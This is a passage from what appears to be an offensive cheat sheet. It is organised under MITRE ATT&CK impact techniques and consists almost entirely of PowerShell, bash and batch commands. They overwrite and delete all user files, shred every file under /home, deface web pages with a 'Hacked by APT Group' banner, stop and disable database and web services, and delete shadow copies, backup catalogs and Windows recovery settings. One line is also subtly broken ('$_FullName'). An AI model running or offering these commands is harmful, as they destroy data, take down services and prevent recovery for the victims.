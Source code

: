 ### 2. Data Destruction (T1485)

```powershell
# Wipe files
Get-ChildItem C:\Users -Recurse -File | ForEach-Object {
    $random = [System.IO.File]::ReadAllBytes($_FullName)
    for($i=0; $i -lt $random.Length; $i++) { $random[$i] = Get-Random -Minimum 0 -Maximum 256 }
    [System.IO.File]::WriteAllBytes($_.FullName, $random)
    Remove-Item $_.FullName -Force
}

# Linux data destruction
find /home -type f -exec shred -vfz -n 10 {} \;
```

### 3. Defacement (T1491)

```bash
# Web defacement
echo "<h1>Hacked by APT Group</h1>" > /var/www/html/index.html

# Replace all HTML files
find /var/www -name "*.html" -exec cp defaced.html {} \;
```

### 4. Service Stop (T1489)

```powershell
# Stop critical services
Stop-Service -Name "MSSQLSERVER" -Force
Stop-Service -Name "SQLServerAgent" -Force
Stop-Service -Name "MSSQLServerOLAPService" -Force

# Disable services
Set-Service -Name "MSSQLSERVER" -StartupType Disabled

# Linux service disruption
systemctl stop mysql
systemctl stop apache2
systemctl disable mysql
```

### 5. Inhibit System Recovery (T1490)

```batch
# Delete shadow copies
vssadmin delete shadows /all /quiet
wmic shadowcopy delete

# Disable Windows Recovery
bcdedit /set {default} recoveryenabled no
bcdedit /set {default} bootstatuspolicy ignoreallfailures

# Delete backup catalogs
wbadmin delete catalog -quiet
```
